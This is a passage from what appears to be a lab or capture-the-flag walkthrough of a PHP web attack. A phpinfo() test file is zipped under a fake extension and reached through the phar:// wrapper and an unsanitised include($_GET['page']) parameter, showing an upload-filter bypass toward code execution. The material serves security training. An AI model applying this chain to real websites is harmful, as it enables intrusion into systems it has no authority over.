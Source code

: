 ```php
<?php phpinfo(); ?>
```

**2- we can zip extension so lets make jpg format with zip with previous test.php**

```
zip test.0xcybersoldier test.php
```

**3- test file**

<figure><img src="../../.gitbook/assets/8 (1).png" alt=""><figcaption></figcaption></figure>

**now as we see its cannot execute because we php or phar with these**

**but php is disabled so will try with phar://**

```
phar://[archive path]/[file inside the archive]
```

and we know that there page parameter in index.php

```php
include($_GET['page'] . ".php");
```

**or**

**we see in admin panel**

<figure><img src="../../.gitbook/assets/9 (1).png" alt=""><figcaption></figcaption></figure>
